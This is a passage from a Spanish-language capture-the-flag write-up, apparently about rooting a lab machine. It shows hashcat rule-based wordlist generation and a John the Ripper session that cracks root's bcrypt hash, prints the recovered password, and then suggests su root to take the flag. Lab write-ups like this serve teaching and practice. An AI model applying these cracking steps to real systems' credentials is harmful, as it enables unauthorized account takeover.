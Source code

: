 ```bash
..etc..

# hashcat -r /usr/share/hashcat/rules/best64.rule dicc --stdout >> dicc
```
Una vez que ya tenemos nuestro diccionario creado con las `reglas de hashcat` procedemos a crackear el hash de root con la herramienta `JohnTheRipper`
```bash
# john --wordlist=dicc hash        
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
"PleaseSubscribe!xx (?)"
1g 0:00:00:00 DONE (2021-05-23 20:44) 1.492g/s 107.4p/s 107.4c/s 107.4C/s PleaseSubscribe!..PlesPles
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Y ya tendriamos la contraseña de `root`.
Podriamos hacer un `su root` pegar la contraseña y posteriormente coseguir la flag de `root.txt`

Maquina Rooteada =)

